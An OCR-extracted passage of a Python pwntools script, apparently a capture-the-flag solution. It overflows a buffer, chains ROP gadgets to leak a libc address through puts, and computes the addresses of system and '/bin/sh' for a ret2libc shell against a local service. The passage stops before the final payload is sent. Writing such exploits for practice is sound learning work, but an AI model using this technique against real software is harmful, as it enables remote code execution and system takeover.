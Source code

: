 ```python
success(f'{hex(exit_plt)=}')

context.binary = exe

# Uncomment one or the other for proper process startup -- local or debugger?
def conn():
    if args.LOCAL:  
        # r = process([exe.path])                   # Just start the local process
        r = gdb.debug([exe.path])                   # Open with pwndbg debugger
    else:
        r = remote("127.0.0.1", 9999)

    return r

def main():
    
    offset = 32
    length = 90
    r = conn()
    prompt = r.recvuntil(b'\n> ')                   
    print(prompt.decode('utf-8'))                   # Print out prompt that's given to us -- need to use utf-8 as it is sent as bytes
    # r.send(b'A'*100)
    payload = b''.join([                            # Use join() to join all elements in a list into one string
        b'A'*offset,
        #b'\x42\x42\x42\x42\x42\x42\x42\x42',       # This is the same as "BBBBBBBB", this will send 8 B's after 32 A's (our offset value) 
        p64(ret),                                   # Stack-alignment issues requires a ret gadget here
        p64(pop_rdi),                               # ROP Gadget to pop alarm_got into the RDI register
        p64(alarm_got),                              
        p64(puts_plt),                                # Call puts() from PLT
        p64(main_function),                         # Jump back into main(), executing it twice -- needs to be packed into the binary's format (64-bit representation) this is because we received the numeric value from main_function
    ])
    
    # A's at the top, B's for injection test, and C's for padding out the original length of data to send out
    payload += b'C'*(length -len(payload))          

    r.send(payload)
    alarm_libc = u64(r.recvline().strip().ljust(8, b'\x00')) # Retrieve value of the base address -> once our payload returns
    success(f'{hex(alarm_libc)=}')

    # Do maths to obtain the libc base -> alarm_libc subtracted from the value of the libc object from the offset of alarm
    libc_base = alarm_libc - libc.symbols.alarm            
    success(f'{hex(libc_base)=}')
    libc.address = libc_base

    # Instantiating variables to find dynamically-loaded libc addresses
    system = libc.symbols.system
    bin_sh = next(libc.search(b'/bin/sh\x00'))
    success(f'{hex(system)=}')
    success(f'{hex(bin_sh)=}')

    prompt = r.recvuntil(b'\n> ')

```